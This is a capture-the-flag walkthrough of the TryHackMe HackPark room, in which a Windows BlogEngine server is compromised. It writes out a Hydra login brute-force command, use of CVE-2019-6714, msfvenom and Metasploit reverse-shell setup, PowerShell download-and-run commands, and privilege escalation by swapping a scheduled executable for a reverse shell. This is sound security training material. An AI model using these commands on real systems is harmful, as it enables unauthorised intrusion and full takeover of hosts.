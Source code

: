 # HackPark

**Room Link:** [https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)



### Using Hydra to brute-force a login

**What request type is the Windows website login form using?**

<figure><img src="../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

**Crafting request for Hydra**

Sent a failed login request to Burp to see what it would look like. With this info I was able to craft my request for hydra. I just needed to get the URL and everything that is sent after VIEWSTATE and just change the input to use ^USER^ and ^PASS^ to brute force these fields.

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

I could also do this without burp by just opening the console and getting the info from there

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.110.93 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=vvTqZ%2FG4tEKhQoxeTpJ%2FyGxM9ZY9ZIvd6YMUS%2BoY3uaQCjC%2BJRdlkd8rbIQsDHztL%2BjsAvOLJhxU7vTNo3GP%2FLEmsndGPNAlCDn%2FB%2FrK2ynp9QkhRe9iqKBUmM5FQT2kX%2Bg%2BfPDNnTuzqW5IlmTujw4sLEzbvvec9FDW4cbQevgTj1tHnKx0vMmkVah5imro0o%2BHvQ5%2FGvpafEs1NdnW6wrSsUFuXnYzletKCdLG%2FgSb7bCDOK4ukZK%2F1cMOgYtjOCU4gk4M7PhQcYZmGpAN7pPVCMpX2YwGnTSgBPPmCB6avoLqG5jRS%2F3PYMjsqEGcD9P9S555GMQPxtfyvOEaJw%2B%2BZELKU2yVYr4uWxamEITsWNAT&__EVENTVALIDATION=Tp%2B5DS80H3PFB8ipJ24uKyHkPhSkqKD7GFJlc2U6IaO61l68aholdIjrZJ%2FsotSi0QxRBQjayWovmb2SU%2Fk6lY%2BOpju62jOGDkAvqcdNsqGrgf3vrAYw88XT2ONABFvDTR771I2YAr7JylJ0HbBZV83nGvvXWSC6rmKDGn80%2FuszTjDZ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (3) (3) (2).png" alt=""><figcaption><p>Credentials found</p></figcaption></figure>

### Compromise the machine

**Now you have logged into the website, are you able to identify the version of the BlogEngine?**

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CVE?**

CVE-2019-6714

**Exploit Link:** [https://www.exploit-db.com/exploits/46353](https://www.exploit-db.com/exploits/46353)

**Using the public exploit, gain initial access to the server. Who is the webserver running as?**

Created the file mentioned in the exploit, just changed the IP to my IP.

<figure><img src="../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

Setup a nc listener&#x20;

```
rlwrap nc -lvnp 4445
```

Upload the file

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (2).png" alt=""><figcaption></figcaption></figure>

Navigate to the link and the nc listener should have caught it

<figure><img src="../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

### **Windows Privilege Escalation**

**Setting up meterpreter shell**

**Kali #1**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.218.233 LPORT=1337 -e x86/shikata_ga_nai -f exe -o reverse.exe
python2 -m SimpleHTTPServer 81
```

**Kali #2**&#x20;

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.218.233  
set LPORT 1337 
run
```

**Victim**&#x20;

```
cd C:\Windows\Temp powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/reverse.exe','reverse.exe')" reverse.exe
```

**What is the OS version of this windows machine?**

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

**Further enumerate the machine. What is the name of the abnormal **_**service**_** running?**

****

**Check Windows Exploit Suggester**

**Kali**

```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git 
cd Windows-Exploit-Suggester/ 
python3.9 windows-exploit-suggester.py --update 
python3.9 windows-exploit-suggester2.py --database 2022-12-03-mssb.xls --systeminfo systeminfo.txt
```

**Transfer WinPeas**

**Kali**&#x20;

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20221127/winPEASx64.exe 
python2 -m SimpleHTTPServer 81
```

**Victim**&#x20;

```
cd C:\Windows\Temp
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/winPEASx64.exe','winPEASx64.exe')" 
winPEASx64.exe
```

``![](<../../.gitbook/assets/image (25).png>)``

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

```
cd C:\Program Files (x86)\SystemScheduler\Events
type 20198415519.INI_LOG.txt
```

We can see Message.exe is kept being ran by Administrator so we just need to replace the file with our reverse shell, setup a listener and wait for the Administrator to try to run it.

<figure><img src="../../.gitbook/assets/image (9) (3).png" alt=""><figcaption><p>Message.exe is called by Administrator </p></figcaption></figure>



**Kali**&#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.218.233 LPORT=1337 -f exe -o Message.exe 
python2 -m SimpleHTTPServer 81 rlwrap nc -lvnp 1337
```

**Victim**&#x20;

```
cd C:\Program Files (x86)\SystemScheduler 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/Message.exe','Message.exe')"
```

<figure><img src="../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>


